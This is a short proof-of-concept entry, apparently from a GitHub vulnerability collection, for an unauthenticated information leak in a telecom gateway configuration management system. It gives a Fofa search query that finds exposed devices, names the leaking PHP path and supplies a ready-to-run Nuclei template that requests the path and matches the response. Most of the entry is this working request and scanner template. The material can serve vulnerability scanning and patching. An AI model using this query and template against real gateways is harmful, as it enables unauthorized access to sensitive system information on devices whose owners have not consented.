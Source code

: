### Telecom Gateway Configuration Management System Unauthorized Access to Sensitive Information

**Fofa Query:** `body="img/dl.gif" && title="系统登录"`

**Vulnerability Description:** The telecom gateway configuration system is vulnerable to information leakage, allowing unauthorized access to sensitive information.

**Vulnerability POC (Proof of Concept):**

1. **Send a GET request to the following URL:**

   ```
   GET /newlive/manager/infomation.php HTTP/1.1
   ```

   **Response Code Characteristic:** 200  
   **Response Content Characteristic:** Contains "Cpu"

2. **Nuclei POC:**

   ```yaml
   id: Telecom-Gateway-InfoLeak
   
   info:
     name: Telecom Gateway Configuration System Information Leakage
     author: Expert
     severity: high
     metadata:
       fofa-query: body="img/dl.gif" && title="系统登录"
   http:
     - raw:
         - |
           GET /newlive/manager/infomation.php HTTP/1.1
           Host: {{Hostname}}
           User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
       matchers:
         - type: dsl
           dsl:
             - status_code==200 && contains(body, "Cpu")
   ```

